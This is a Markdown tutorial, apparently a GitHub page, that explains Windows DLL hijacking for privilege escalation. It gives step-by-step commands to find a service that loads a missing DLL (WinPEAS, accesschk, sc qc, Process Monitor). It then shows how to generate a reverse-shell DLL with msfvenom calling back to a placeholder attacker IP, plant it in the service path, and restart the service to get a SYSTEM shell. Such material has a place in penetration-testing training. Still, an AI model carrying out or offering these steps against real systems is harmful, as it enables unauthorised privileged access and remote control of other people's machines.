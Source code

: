 
## 🎯 What Is DLL Hijacking?
When a Windows service or program **searches for a DLL**, it looks in certain folders in a specific order.
If it **can’t find the DLL in the expected path**, it keeps searching — and if **you can place a malicious DLL in one of those locations**, it will get loaded and executed with **the same privileges as the service (e.g., SYSTEM)**.
##  Enumeration (Find Hijackable DLLs)
Run `WinPEAS` on the target machine. Look for sections like:
- `Potential DLL Hijacking`
- `Service Executables Missing DLLs`
- `Writable Directories in PATH`
<img width="858" height="198" alt="image" src="https://github.com/user-attachments/assets/882de4ce-cf47-4d21-85c2-579e0ddec46a" />
*(Example: Found service **`dllsvc`**)*
## Check If You Can Exploit
### Step 1: Check Service Permissions
```bash
accesschk.exe /accepteula -quvw user dllsvc
```
Check for:
- `SERVICE_START`
- `SERVICE_STOP`
If you have these, you can control the service.
<img width="860" height="217" alt="image" src="https://github.com/user-attachments/assets/88469c21-fe26-4431-9bc1-0f8716bf9d6c" />
### **2. Verify Service Control**
```
sc qc dllsvc
```
🔹 **If it runs as `LocalSystem` → Perfect!**
Here you can see the `SERVICE_START_NAME` is LocalSystem it means the service runs with **very high privileges**
<img width="863" height="272" alt="image" src="https://github.com/user-attachments/assets/bf2b8b31-e5eb-4169-96c5-30615709a7d1" />### **3. Analyze with Process Monitor**
1. Download Process Monitor (ProcMon) from Microsoft
2. Run as Administrator
3. Set filters:
    - Process Name: **`dllsvc.exe`**
    - Operation: **`CreateFile`**
    - Result: **`NAME NOT FOUND`**
4. Start capturing and run:
```
net start dllsvc
```
### **4. Identify Missing DLLs**
In ProcMon, look for:
```
PATH\NOT\FOUND\example.dll
```
Note the exact DLL name and search paths.
<img width="889" height="774" alt="image" src="https://github.com/user-attachments/assets/c3d403b0-3c7d-4e7b-9bad-6761b65ea020" />
### **5. Create Malicious DLL**
Generate a malicious DLL payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f dll -o evil.dll
```
Rename to match the missing DLL (e.g., **`example.dll`**)
### **6. Plant the DLL**
Copy to a writable location that appears earlier in the DLL search order:
```
copy evil.dll "C:\Program Files\VulnerableService\missing.dll"
```
### **7. Trigger the Exploit**
```
net stop dllsvc
net start dllsvc
```
You should receive a reverse shell with the service's privileges!

